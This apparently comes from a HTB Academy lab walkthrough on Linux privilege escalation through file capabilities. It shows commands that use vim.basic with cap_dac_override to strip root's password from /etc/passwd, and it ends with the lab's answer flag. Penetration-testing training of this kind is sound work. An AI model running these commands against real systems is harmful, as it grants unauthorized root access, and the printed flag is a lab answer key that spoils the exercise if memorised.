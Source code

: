 ## Exploitation

If we gained access to the system with a low-privilege account, then discovered the `cap_dac_override` capability:

#### Exploiting Capabilities

```shell-session
KaoruRyusaki@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

For example, the `/usr/bin/vim.basic` binary is run without special privileges, such as with `sudo`. However, because the binary has the `cap_dac_override` capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the `cap_dac_override` capability and perform tasks that require this capability.

Let us take a look at the `/etc/passwd` file where the user `root` is specified:

```shell-session
KaoruRyusaki@htb[/htb]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

```shell-session
KaoruRyusaki@htb[/htb]$ /usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:

```shell-session
KaoruRyusaki@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
KaoruRyusaki@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.




#### Question

Escalate the privileges using capabilities and read the flag.txt file in the "/root" directory. Submit its contents as the answer.

* Download the VPN file from the HTB Academy webpage
* Open your VM and go to your Downloads page from the terminal
* Run the command " openvpn academy-regular.ovpn " (if it doesnt work try running the same command with sudo)
* Use the user and password given by HTB and then SSH to the target system spawned for you by running this command "ssh htb-student@\<ip given>\"
* Run command " find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;"
* We will get this capability which we can use "/usr/bin/vim.basic = cap_dac_override+eip"
* Run command "cat /etc/passwd | head -n1", it will return "root:x:0:0:root:/root:/bin/bash" (the x means root has a password)
* Run Command "/usr/bin/vim.basic /etc/passwd" which will open VIM
* Press "i" to be able to modify the lines, then remove the "x" of the "root:x:0:0:root:/root:/bin/bash" line, then save the changes by pressing ":x!". This will allow you to run the "su" command, which will log you as root without a password
* As the root user, go to the "/root" folder, then open the "flag.txt" file 
* HTB{c4paBili7i3s_pR1v35c}